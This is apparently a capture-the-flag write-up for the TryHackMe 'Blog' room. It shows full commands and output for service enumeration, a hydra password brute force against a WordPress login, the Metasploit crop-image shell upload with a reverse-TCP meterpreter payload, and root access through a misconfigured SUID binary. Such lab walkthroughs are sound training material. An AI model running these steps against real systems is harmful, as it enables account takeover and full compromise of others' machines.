



# TryHackMe Blog Room - www.tryhackme.com/room/blog
For my run, the IP address of the virtual machine was 10.10.20.26. Remember to change it where necessary when reading this writeup!
```
$ export IP=10.10.20.26
```

Let's start by enumerating the machine ports:
```
$ nmap -sV -sC $IP
Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-11 09:42 -03
Nmap scan report for 10.10.20.26
Host is up (0.24s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.35 seconds
```
Hmm, Samba? Let's try and use [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) to see what's up with this smb service...

```
$ ~/src/enum4linux/enum4linux.pl $IP
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jul 11 09:45:22 2020

(...)

 ======================================== 
|    Share Enumeration on 10.10.20.26    |
 ======================================== 
WARNING: The "syslog" option is deprecated

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	BillySMB        Disk      Billy's local SMB Share
	IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            BLOG

[+] Attempting to map shares on 10.10.20.26
//10.10.20.26/print$	Mapping: DENIED, Listing: N/A
//10.10.20.26/BillySMB	Mapping: OK, Listing: OK
//10.10.20.26/IPC$	[E] Can't understand response:
WARNING: The "syslog" option is deprecated
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

(...)

S-1-22-1-1000 Unix User\bjoel (Local User)
S-1-22-1-1001 Unix User\smb (Local User)

```
Aha! We have a SMB share called "BillySMB" that we can map and list! Also, we found a unix user called "bjoel". Alright!

Let's check first this SMB share. 
```
$ smbclient //$IP/BillySMB
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\landau's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 15:17:05 2020
  ..                                  D        0  Tue May 26 14:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 15:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 15:13:45 2020
  check-this.png                      N     3082  Tue May 26 15:13:43 2020

		15413192 blocks of size 1024. 9784484 blocks available
smb: \> 

```
Hmm, let's download these files and analyze them. 
First one, Alice-White-Rabbit.jpg: It's a jpeg file, we can use steghide:
```
$ steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
```
Oh no, i don't like this file name. Let's read it...
```
$ cat rabbit_hole.txt 
You've found yourself in a rabbit hole, friend.
```
The other two files are a (funny) mp4 music clip, and a QR code, that leads to an youtube music clip (good music though! Long Live the 80's!). No hints there. 

So, this whole SMB thing was a rabbit hole. Let's check other places! This is a blog, and we've checked port 80 is open! Let's see what we have here...

```
$ gobuster dir -u $IP -w /usr/share/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.20.26
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/11 09:43:15 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 301)
/admin (Status: 302)
/atom (Status: 301)
/dashboard (Status: 302)
/embed (Status: 301)
/favicon.ico (Status: 200)
/feed (Status: 301)
/index.php (Status: 301)
/login (Status: 302)
/page1 (Status: 301)
/rdf (Status: 301)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
===============================================================
2020/07/11 09:58:16 Finished
===============================================================
```
I've checked robots.txt (always one of the first things to check!):
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```
Hmm, wp-admin... So this is a WordPress site. It's a good time to remember to add the IP to /etc/hosts, so the site works just fine. 
`10.10.20.26	blog.thm`

Now, if we try and access 'http://blog.htm/wp-admin', we get an WordPress login screen!<br>



Let's see... is the user "admin" still the default user for this?<br>



No. But we've found an user 'bjoel' in our enum4linux! maybe he is a valid user?<br>


Yes he is! We could try and brute-force his password with hydra! (SPOILERS: It doesn't work well.)

Ok, so what we could do?

Ah, there is [WPScan](https://github.com/wpscanteam/wpscan), we could try to use this to enumerate all the WordPress users:

```
$ docker run -it --rm wpscanteam/wpscan --url $IP --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.2
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.20.26/ [10.10.20.26]
[+] Started: Sat Jul 11 14:30:15 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://10.10.20.26/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.20.26/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://10.10.20.26/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.20.26/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.20.26/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.20.26/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.20.26/, Match: 'WordPress 5.0'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===========================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.20.26/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.20.26/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Jul 11 14:30:26 2020
[+] Requests Done: 56
[+] Cached Requests: 5
[+] Data Sent: 9.637 KB
[+] Data Received: 250.602 KB
[+] Memory used: 128.598 MB
[+] Elapsed time: 00:00:11
```
So we have now some GOOD info! there are two users: bjoel and kwheel, and we know by using the browser that 'kwheel' (Karen Wheeler) have author access to the blog! Also, this is WordPress 5.0, which is vulnerable!
If we take a look at [exploit-db](https://www.exploit-db.com/), We find out that there is a vulnerability "WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)", and by reading it we learn that we need the username and password for someone with author access. Maybe kwheel is our ticket to this machine!

Let's try and brute-force kwheel's password. First we press F12 on your browser and go to the network tab of the developer tools, and enter some random password for 'kwheel'; We are interested in the post message of the web site. We get this post data:
```
log=kwheel&pwd=123&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1
```
Now we are going to use this into hydra:
```
$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

(...)

[80][http-post-form] host: 10.10.20.26   login: kwheel   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-11 11:34:37
```
Now we have the password for kwheel!

We could log in in the admin panel and take a look, but since we know that there is a metasploit script for our exploit, we'll proceed and open metasploit:

```
msf5 > search crop-image

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


msf5 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(multi/http/wp_crop_rce) > 
```

Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit!

We can run 'shell' now and take a look on what's going on inside the machine. We have two goals: the files user.txt and root.txt.
If we do a find on the machine:
```
$ find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
```
ok cool, BUT when we try and read it...
```
$ cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```
Ok. We can try a little bit harder. Let's search for SUID files for that sweet privesc!
```
find / -perm -u=s -type f 2>/dev/null
```

We have some common files, BUT there is an interesting one... `/usr/sbin/checker`. Never heard of this one. After checking on [GTFOBins](https://gtfobins.github.io/), we are sure that this is not a usual binary. Hmmmm...
Let's take a look on how this thing works.
```
$ ls -la /usr/sbin/checker     
-rwsr-sr-x 1 root root 8432 May 26 18:27 /usr/sbin/checker
```
So it is a root owned binary, with SUID flag on. What happens when we run it?

```
$ ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

So it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?
```
$ export admin=1
$ ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"
```
Oh, so now it tries to run bash! And since this is owned by root, it'll run bash as root! SWEET!
```
$ checker
$ id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Let's try again that stuff to find the user flag:
```
$ find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
/media/usb/user.txt
```
Oh, it was there! 
```
$ cat /media/usb/user.txt
<REDACTED>
```

and of course, the root flag:
```
$ cat /root/root.txt
<REDACTED>
```

And that's it! It was quite a nice room, and I've enjoyed it a lot!

Thank you for reading this write-up!

Created by: Stacker (THM), BarbosaRMS(github), Landau(everywhere else) | 11/07/2020
